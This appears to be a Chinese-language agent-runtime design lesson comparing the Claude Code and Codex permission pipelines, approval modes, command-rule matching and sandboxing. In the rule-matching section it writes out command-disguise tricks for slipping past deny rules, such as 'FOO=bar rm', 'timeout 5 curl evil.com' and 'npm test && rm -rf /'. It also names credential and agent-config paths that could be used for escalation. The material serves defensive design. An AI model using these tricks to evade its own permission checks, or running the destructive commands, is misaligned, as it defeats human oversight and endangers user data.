






# 第 6 课：权限、审批与沙箱

> 面向 deepseek 自研的 agent runtime 设计课。基于 claude / codex 真实源码。
> 讲法：先立一根主线 + 一条具体轨迹，再展开；claude 与 codex 双实现当作"同一件事的两种做法"压在主线下，每节给出 deepseek 的落地结论。
> 本课所有结论都对着磁盘上的真源码核过（codex 在 `codex/codex-rs/`，claude 在 `claude/`），citation 收在每个小节末尾的〔源码锚点〕行。第 2 课反复说"这个留到讲权限时细讲"、第 5 课回滚反复出现"沙箱/审批策略"——都在这一课收口。

---

## 0. 一根主线，先记住

前五课讲的是 agent 怎么转、怎么记、怎么落盘。这一课讲的是一件横切所有工具调用的事：**模型说"我要跑 `rm -rf build/`"，到这条命令真的在你机器上执行，中间隔着一道闸。这道闸怎么判、怎么把破坏关进盒子里——就是这一课。**

整课只有一个核心结构，记住它，后面全是细节：

> **从"模型发出工具调用"到"命令真的执行"，中间有两道独立的闸。**
> **第一道闸：approval / permission——"准不准跑？"** 它只输出三个答案之一：**允许（allow）、问用户（ask）、拒绝（deny）**。
> **第二道闸：sandbox——"就算准跑，跑起来能碰到什么？"** 它用操作系统级的隔离，把命令能读哪、能写哪、能不能联网框死。

两道闸是正交的：一条命令可以"准跑、但只关在沙箱里"；也可以"准跑、完全放开"；也可以"先问你"。

而这一课最重要的一个设计直觉，是这两道闸怎么**配合**:

> **沙箱的价值，不只是"限制破坏范围"，更是"用 OS 级隔离换取不打断用户"。** 把"每条命令都弹窗问一遍"的糟糕体验，换成"放进盒子里随便跑，只有盒子挡不住的事才来问你"。

claude 和 codex 殊途同归到这个直觉上——codex 把"能在沙箱里跑"直接当成"不用问"的理由；claude 后来加沙箱时，加的开关就叫 `autoAllowBashIfSandboxed`（开了沙箱，该问的 bash 命令就不问了）。这是全课最该记住的一句。

### 一条具体轨迹（贯穿全课的例子）

模型在某一轮里发出一个工具调用：跑 `rm -rf build/`。从这一刻到命令真的删掉 `build/`，经过的关卡：

1. **工具可见 / 可派发吗？**（第 2 课讲过的前两层，这里不重复）——假设 Bash 工具可用。
2. **判定层：准不准跑？**（决策一）——判定引擎吃进"这条命令 + 当前模式/策略 + 规则"，吐出 allow / ask / deny 之一。
3. **这条具体命令对上了哪条规则？**（决策二）——`rm -rf` 是不是命中了某条 deny 规则？是不是被某条 `Bash(rm:*)` 允许了？复合命令、`FOO=bar rm`、`timeout 5 rm` 这些绕过花招怎么防？
4. **要执行了，关进沙箱吗？**（决策三）——`build/` 在可写根里吗？沙箱允许写它吗？网络要不要断？
5. **要是判定结果是 ask，怎么问、问完能不能记住？**（决策四）——弹窗、允许一次 / 永久、沙箱跑失败了要不要升级问"不带沙箱重试"。
6. **整条链上不能破的底线有哪些？**（决策五）。

这条轨迹画成时序图，就是这一课的骨架——两道闸，中间夹着"问用户"和"失败升级":

下面按这条轨迹逐个拆。每一步都先讲"这一步在解决什么"，再讲 claude 和 codex 各自怎么做。

---

## 决策一：判定层 —— 谁来决定"准不准跑"，决策长什么样

### 问题

工具调用到了闸前，要产出一个判定。第一个设计决定是：**判定结果是什么形状？谁来算它？用什么给整个判定"调总档"?**

两家都把判定收敛成一个**小的、封闭的枚举**（就那么几个可能的答案），都提供一个"总开关/模式"给用户一把调松或调紧整条判定。差别在：claude 的判定**以规则匹配为主**,codex 的判定**是"审批策略 × 沙箱策略 × 命令安全性"的一张矩阵**。

### claude 侧：四态结果 + 十步流水线 + 权限模式调档

#### 判定结果：四态联合类型

判定结果是一个四态联合类型 `PermissionResult`。前三态是会真正返回给调用方的答案，第四态只在内部流转：

- `allow`——准跑。可带 `updatedInput`（判定时顺手改写了入参，比如规范化路径）、`decisionReason`（为什么准）。
- `ask`——问用户。带 `message`、`suggestions`（给用户的"要不要永久允许"选项）、`decisionReason`。
- `deny`——拒绝。带 `message` 和**必填的** `decisionReason`（拒绝必须说清理由）。
- `passthrough`——"我没意见，交给外层流水线定"。**这个第四态只在工具自己的 `checkPermissions` 内部用**，永远不会返回给最外层调用方；最外层会在最后一步把它转成 `ask`。

#### 十步短路流水线：顺序就是安全语义

判定的主函数是一条**十步、短路求值的流水线**——按固定顺序往下查，**任何一步命中就立刻返回，后面的不再看**。顺序极其重要，逐字核过，列全：

| 步 | 检查 | 命中后返回 | 备注 |
|---|---|---|---|
| 1a | 整个工具被 deny 规则禁掉 | **deny** | 第一道，deny 优先级最高 |
| 1b | 整个工具有 ask 规则 | **ask** | 例外：开了沙箱且这条 bash 会被沙箱，跳过（见决策三的 `autoAllowBashIfSandboxed`） |
| 1c | 调工具自己的 `checkPermissions(input, ctx)` | allow/deny/ask/passthrough | 工具特定逻辑（路径、命令前缀）在这 |
| 1d | 1c 返回了 deny | **deny** | 工具说不行就不行 |
| 1e | `tool.requiresUserInteraction()` 且 1c 是 ask | **ask** | **bypass 也挡不住**（如 ExitPlanMode） |
| 1f | 1c 是"内容级 ask 规则"（如 `Bash(npm publish:*)`） | **ask** | **bypass 也挡不住**——用户显式配的 ask 规则，bypass 模式也要尊重 |
| 1g | 安全路径检查（写 `.git/`、`.claude/`、`.bashrc` 这类） | **ask** | **bypass 也挡不住**(`type:'safetyCheck'`) |
| 2a | 当前是 `bypassPermissions` 模式 | **allow** | 跳过一切询问——但注意它排在 1a–1g **之后** |
| 2b | 整个工具有 allow 规则 | **allow** | |
| 3 | 以上都没命中（passthrough） | **ask** | 兜底：不确定就问 |

同一条流水线画成流程图——它的灵魂是"从上往下、命中即停":

这张表把两个关键纪律钉死了：**① deny 永远第一个判（1a），allow 永远最后才判（2b），所以"既有 allow 又有 deny"时 deny 赢。② 哪怕开了最松的 `bypassPermissions`（全部放行），1e/1f/1g 三类"必须问"的东西照样拦得住**——用户显式配的 ask 规则、需要交互的工具、危险路径，bypass 也绕不过去。这是"全部放行"模式仍然安全的根本。

#### 权限模式：给整条流水线调总档的旋钮

**权限模式（permission mode）就是给这条流水线调总档的旋钮**，五个对外模式 + 两个内部：

- `default`——不特殊处理，老老实实走流水线。
- `acceptEdits`——自动放行"编辑类"操作：文件写/改只要落在工作目录内就准，bash 里一小撮文件系统命令（写死在一张 `ACCEPT_EDITS_ALLOWED_COMMANDS` 表里：`mkdir/touch/rm/rmdir/mv/cp/sed`）也准，其余照问。
- `bypassPermissions`——上表 2a，跳过询问（但拦不住 1a–1g）。
- `plan`——**注意：plan 模式在权限引擎层面根本不拦工具**。流水线里没有任何 `mode==='plan'` 的工具拦截分支；plan 模式靠 system prompt 告诉模型"只许规划别动手"来约束，是**软约束**。它唯一的硬效果是门控 `ExitPlanModeTool`（退出 plan 要用户确认）。
- `dontAsk`——在所有判定**之后**再加一道：任何本该 `ask` 的结果，**静默改成 `deny`**。适合非交互场景"能自动跑就跑、要问的一律算了"。
- 内部模式 `auto`（ant 内部 build flag `TRANSCRIPT_CLASSIFIER` 才有）用 LLM 分类器替代弹窗；`bubble` 只是占位、无逻辑。

〔源码锚点：`PermissionResult` 四态（allow 带 `updatedInput`/`decisionReason`、deny 的 `decisionReason` 必填、passthrough 内部用）= `types/permissions.ts:174-266`；passthrough 在最外层转 ask = `utils/permissions/permissions.ts:1300`；主函数 `hasPermissionsToUseToolInner` 十步短路流水线 = `utils/permissions/permissions.ts:1158`（1a deny 规则 `:1171`、1b ask 规则 + 沙箱 autoAllow 跳过 `:1184-1206`、1c `tool.checkPermissions` `:1208`、1d deny `:1226`、1e `requiresUserInteraction()`+ask `:1231`、1f 内容级 ask 规则 `:1244`、1g `safetyCheck` `:1255`、2a bypassPermissions→allow `:1268`、2b allow 规则 `:1283`、3 passthrough→ask `:1300`）；权限模式枚举（5 对外 + 内部 `auto`/`bubble`，`bubble` 无逻辑见 `PermissionMode.ts:104`）= `types/permissions.ts:16-38`；`acceptEdits` 的 `ACCEPT_EDITS_ALLOWED_COMMANDS`（`mkdir/touch/rm/rmdir/mv/cp/sed`）= `tools/BashTool/modeValidation.ts:7-15`（消费点 `:38`）；`dontAsk` 把 ask 静默改 deny = `utils/permissions/permissions.ts:505`；`auto` 模式 `feature('TRANSCRIPT_CLASSIFIER')` 门控、走分类器 = `utils/permissions/permissions.ts:35,521`。〕

### codex 侧：两条决策路径 + Allow/Prompt/Forbidden + AskForApproval 调档

#### 按工具类型分两条决策路径

codex 没有"一条统一流水线"，而是**按工具类型分了两条决策路径**——这是它和 claude 最大的结构差异，核过源码确认：

- **改文件（`apply_patch`）走专管补丁的 `assess_patch_safety`**，返回 `SafetyCheck` 三态：`AutoApprove{sandbox_type, user_explicitly_approved}` / `AskUser` / `Reject{reason}`。（这个文件顶部 `use codex_apply_patch::ApplyPatchAction`——它就是专为打补丁服务的。）
- **跑 shell 命令走 `render_decision_for_unmatched_command`**，返回 `Decision` 三态：`Allow` / `Prompt` / `Forbidden`。

两条路径画出来：

#### 总档旋钮：AskForApproval 的 5 个变体

两条路径的"总档旋钮"是同一个枚举 **`AskForApproval`**，**5 个变体**，把 doc 注释核过并翻译：

| 变体（磁盘上的名） | 含义 |
|---|---|
| `UnlessTrusted`（序列化名 `"untrusted"`） | 最严交互档。只有"已知安全"命令（`is_known_safe_command`，且只读文件）自动批，其余一律问用户。 |
| `OnFailure`（**已弃用**） | 全部命令先自动批、塞进沙箱里跑；**只有沙箱跑失败了，才升级问用户"要不要不带沙箱重试"**。注释建议改用 `OnRequest`/`Never`。 |
| `OnRequest`（**默认**） | 模型自己决定何时请求审批（通过工具参数 `require_escalated`/`with_additional_permissions`）。受限沙箱里，非危险的未匹配命令直接在沙箱跑、不问；不受限环境里非危险命令随便跑。 |
| `Granular(config)` | 细粒度：5 个布尔开关（`sandbox_approval`/`rules`/`skill_approval`/`request_permissions`/`mcp_elicitations`）分别管一类审批弹窗。某类设 `false` = 那类请求**直接自动拒绝、连问都不问**。 |
| `Never` | 永不问。沙箱挡下的命令直接把错误还给模型，绝不升级问用户。 |

#### 第四态 Forbidden：拒绝与禁止分开

注意 codex 的判定矩阵里，**结果不只 allow/ask/deny 三态，还有一个 `Forbidden`/`Reject`**——"这事不许干、也不问、直接禁"。例如 `Never` 档下一条危险命令、又没有沙箱能兜底，结果就是 `Forbidden`：既然你说了永不打扰、又没沙箱保护，那只能禁掉。claude 没有独立的"禁且不问"态（它的 deny 就兼任了），codex 把"拒绝"和"禁止"分了开。

> **一个特别容易混的点：你在 UI 里选的"权限模式"，其实一次绑定了两个正交的轴。** 本节这个 `AskForApproval`（5 档）只管"**何时来问你**"；它和决策三的沙箱策略 `SandboxPolicy`（"**跑起来能碰什么**"）是**两个独立的轴**。用户挑的那个"模式"是把两轴打包成的预设——大致：**"请求批准"** ≈ 按需问 + 偏受限沙箱；**"替我审批"（默认）** ≈ 基本不问 + 可写工作区沙箱（撞墙才升级）；**"完全访问权限"** ≈ 永不问（`Never`）+ 完全放开（`danger-full-access`，等于没沙箱）。所以下文每出现一个 `AskForApproval` 档，记得它背后还配着一个沙箱档——很多"这逻辑怎么这么绕"的困惑，都是把这两件事当成一件了。

〔源码锚点：两条决策路径——补丁 `assess_patch_safety`→`SafetyCheck`（`AutoApprove`/`AskUser`/`Reject`，文件顶部 `use codex_apply_patch::ApplyPatchAction`）= `core/src/safety.rs:6,22,33`；shell `render_decision_for_unmatched_command`→`Decision`（`Allow`/`Prompt`/`Forbidden`）= `core/src/exec_policy.rs:628`、`execpolicy/src/decision.rs:9`；总档枚举 `AskForApproval` 5 变体（`UnlessTrusted` 序列化 `"untrusted"`、`OnFailure` 标 DEPRECATED、`OnRequest` 为 `#[default]`、`Granular` 的 5 布尔 `sandbox_approval`/`rules`/`skill_approval`/`request_permissions`/`mcp_elicitations`、`Never`）= `protocol/src/protocol.rs:845-879`；`Never`+危险+无沙箱兜底→`Forbidden` = `core/src/exec_policy.rs:689`。〕

### 对照

- **claude：一条十步短路流水线 + 权限模式调档**，判定**以规则匹配为主**，结果 4 态（其中 passthrough 内部用）。模式是"给整条流水线调松紧"。
- **codex：按工具类型分两条决策路径（补丁 / shell）+ AskForApproval 调档**，判定是**"策略 × 沙箱可用性 × 命令危险性"的矩阵**，结果 3 态（含独立的 Forbidden）。
- 对应关系：claude 的"权限模式"≈ codex 的 `AskForApproval`（都是"调总档"的旋钮）；claude 的 `bypassPermissions`≈ codex 的 `Never`/不受限环境（都偏"少打扰"）；claude 的 `default`≈ codex 的 `OnRequest`/`UnlessTrusted`（都偏"按需问"）。

### deepseek 落地

1. **判定结果设成一个小而封闭的枚举**：`allow / ask / deny` 起步，可再加一个 `forbidden`（禁且不问，给非交互/CI 场景）。别用布尔，你会需要"问"这个中间态。
2. **判定逻辑收敛成一条"固定顺序、命中即返回"的流水线**，而且把顺序当契约写死：**deny 最先、allow 最后**；再留几类"连最松模式也拦得住"的硬询问（危险路径、用户显式配的 ask）。这条顺序就是你的安全语义，值得写测试逐条钉。
3. **给用户一个"模式/策略"旋钮调总档**（默认按需问 / 接受编辑 / 全部放行 / 静默拒绝）。但谨记 claude 的教训：**"全部放行"也必须留几个拦不住的硬例外**，否则一个 bypass 就把所有安全网掀了。
4. deepseek 是 coding agent,**改文件和跑命令的判定可以像 codex 那样分两条路径**（补丁有"是否落在可写根内"这种文件特有判断，命令有"是否危险/是否白名单"这种命令特有判断），别硬塞进一个函数。

---

## 决策二：规则与匹配 —— "这条具体命令"怎么对上规则

### 问题

决策一是"框架"，决策二是"填进框架的判定逻辑"：判定流水线里那句"这条命令命中了哪条 deny/allow 规则"到底怎么算？这里全是坑——因为**攻击者（或跑偏的模型）会用命令变形来绕过你的规则**：你封了 `rm`，它写 `FOO=bar rm`；你封了 `curl evil.com`，它写 `timeout 5 curl evil.com`；你按前缀放行了 `npm test`，它写 `npm test && rm -rf /`。匹配逻辑写松一点，整套权限就是纸糊的。

### claude 侧：规则语法 + 命令拆解 + 三重防绕过

#### 规则语法：四种粒度的字符串

**规则就是字符串**，格式 `工具名` 或 `工具名(内容)`：
- `Bash`——整个 Bash 工具（工具级规则）。
- `Bash(npm install)`——精确匹配这条命令。
- `Bash(npm:*)`——前缀规则（`:*` 结尾），匹配所有 `npm ...`。
- `Bash(npm run *)`——通配规则（中间带 `*`）。
- 内容里的括号用 `\(` `\)` 转义；`Bash(*)` 和 `Bash()` 都塌缩成工具级规则。
- `mcp__server1`（无工具后缀）匹配该 MCP server 的所有工具。

三类规则内容：`exact`（精确）、`prefix`（前缀，`npm:*`→前缀 `npm`）、`wildcard`（通配）。

#### bash 命令的拆解与防绕过

**真功夫在 bash 命令的拆解和防绕过**，三道：

先看一条 bash 命令完整流过匹配器的全貌：

这张图把"防绕过"的三道功夫都标了：**拆复合**（`npm test && rm -rf /` 拆开，前缀规则不许匹配整条串）、**非对称剥伪装**（放行保守、拦截激进）、**提前缀**；最后按 **deny→ask→allow** 顺序匹配。下面把每道拆开讲。

1. **复合命令先拆开，逐条判**。`npm test && rm -rf /` 会先按 `&&`/`||`/`|`/`;`/换行拆成子命令（优先用 tree-sitter AST 解析，降级用 `splitCommand_DEPRECATED`），**每条子命令单独过规则**。而且前缀/通配规则**永远不匹配整条复合串**（`isCompoundCommand` 一票否决）——否则 `Bash(npm:*)` 就会把 `npm test && evil` 整条放行了。
2. **前缀提取**。`getSimpleCommandPrefix` 把 `git commit -m x` 提成 2-token 前缀 `git commit`（第二个 token 得长得像子命令：`^[a-z][a-z0-9]*(-[a-z0-9]+)*$`；`-rf`、`/tmp`、URL、数字都不算），用来对 `Bash(git commit:*)` 这种规则。（另有一个**同名易混的** `getCommandSubcommandPrefix` 是走 Haiku 小模型问出来的前缀提取，不是这个正则版，别搞混。）
3. **剥壳防绕过**，而且**允许规则和拒绝规则用的剥法不同**（这是细节里的细节）：
   - 给**允许规则**匹配时，`stripSafeWrappers` 只剥**安全的**包装器（`timeout`/`time`/`nice`/`nohup`/`stdbuf`）和**白名单内的**环境变量（`NODE_ENV`/`RUST_LOG`/`LANG`…）。这样 `timeout 10 npm install` 还能匹配上 `Bash(npm install:*)`。
   - 给**拒绝/询问规则**匹配时，`stripAllLeadingEnvVars` 剥掉**所有**前导环境变量（不只白名单），而且**反复剥到不动为止**（fixed-point 循环），专治 `nohup FOO=bar timeout 5 danger` 这种层层套娃。道理是：剥得越狠，越不容易让 `FOO=bar danger` 这种花招溜过 deny 规则。**对"放行"要保守（只剥确定安全的），对"拦截"要激进（把伪装全扒光）**——这个不对称非常值得抄。

   还有个细节：前缀规则连 `xargs <前缀>` 也一起管（`Bash(rm:*)` 能拦 `xargs rm file`）。

#### 文件路径类工具走 gitignore 语义

**文件路径类工具（Read/Edit/Write）**走另一套：用 npm 的 `ignore` 包按 **gitignore 语义**匹配。路径前缀有讲究：`//etc/passwd`=从文件系统根算的绝对路径，`~/.ssh/**`=家目录，`/src/**`=项目根，无前缀/`./`=当前 cwd。另外 `.git`/`.vscode`/`.idea`/`.claude` 目录和 `.bashrc`/`.zshrc`/`.gitconfig`/`.mcp.json`/`.claude.json` 这些**危险路径写操作是 bypass-immune 的**——前面流水线 1g 那一步，改它们必弹窗，连 bypass 都拦不住。原因显然：能写 `.git/hooks` 或 `.claude.json` 就能提权或改 agent 自己的配置。

〔源码锚点：规则字符串解析（`Bash(*)`/`Bash()` 塌缩工具级、`\(`/`\)` 转义、`mcp__server1` 匹配该 server 全部工具）= `utils/permissions/permissionRuleParser.ts:93`、`utils/permissions/permissions.ts:258-268`；三类规则内容 exact/prefix/wildcard = `utils/permissions/shellRuleMatching.ts:25`；bash 拆解防绕过 = `tools/BashTool/bashPermissions.ts`（复合命令 AST 拆分 + `splitCommand_DEPRECATED` 降级 `:1670`、`isCompoundCommand` 否决前缀匹配整串 `:884-928`、正则 2-token 前缀提取 `getSimpleCommandPrefix` `:186`、`xargs <前缀>` 处理 `:902-911`、允许规则 `stripSafeWrappers` `:524`、拒绝规则 `stripAllLeadingEnvVars` 剥到不动 `:733`）；同名 Haiku 版 `getCommandSubcommandPrefix` = `utils/shell/prefix.ts:332`；文件路径走 `ignore` 包 gitignore 语义 + 危险目录/文件写 bypass-immune = `utils/permissions/filesystem.ts:3,57,74,853-917,1305-1333`。〕

### codex 侧：execpolicy 规则文件 + 启发式兜底 + 只读白名单

#### 两层匹配：规则文件优先，启发式兜底

codex 的命令匹配分两层：

1. **execpolicy `.rules` 文件优先**。用户和系统可以在 `~/.codex/rules/default.rules` 写规则，对命令前缀判 `allow`/`prompt`/`forbid`。命中规则就照规则来。
2. **没命中任何规则，才走启发式兜底** `render_decision_for_unmatched_command`。先把这两个词说白：**兜底**=规则表不可能穷举所有命令，漏网的总得有人给个默认判决，这层就专门接住它们（函数名直译就是"给没匹配上规则的命令算个决定"）；**启发式**=这个默认判决不靠查表，而是"看命令长什么样 + 现在哪个档"来推断——是不是只读白名单命令？像不像危险命令？当前审批策略松还是紧？绝大多数命令其实都没人专门写规则，所以走的都是这第二层，它才是日常判命令的主力。

这层兜底有两个关键判断：

- **`is_known_safe_command`——只读命令白名单**。一串写死的命令：`cat cd cut echo expr false grep head id ls nl paste pwd rev seq stat tail tr true uname uniq wc which whoami`（Linux 多 `numfmt`/`tac`），外加几个带条件的：`base64`（不带 `-o/--output` 才安全，否则会写文件）、`find`（不带 `-exec`/`-delete`/`-fprint` 这些）、`rg`（不带 `--pre`/`--search-zip`）、`git`（只 `status`/`log`/`diff`/`show`/`branch` 这些只读子命令）、`sed -n {N}p`（只读打印）。`bash -lc "a && b"` 这种，会把脚本体拆成子命令、**每条都在白名单里**才算安全。**但关键：这个白名单只在 `UnlessTrusted` 档下才触发自动放行**;`OnRequest`/`Never`/`OnFailure` 下它不起作用——那几档靠沙箱保护，不靠命令白名单。
- **`command_might_be_dangerous`——危险命令检测**。命中危险的，`Never` 档 → `Forbidden`（没沙箱兜底时），其余档 → `Prompt`。

#### 别高估这套兜底的"智能"
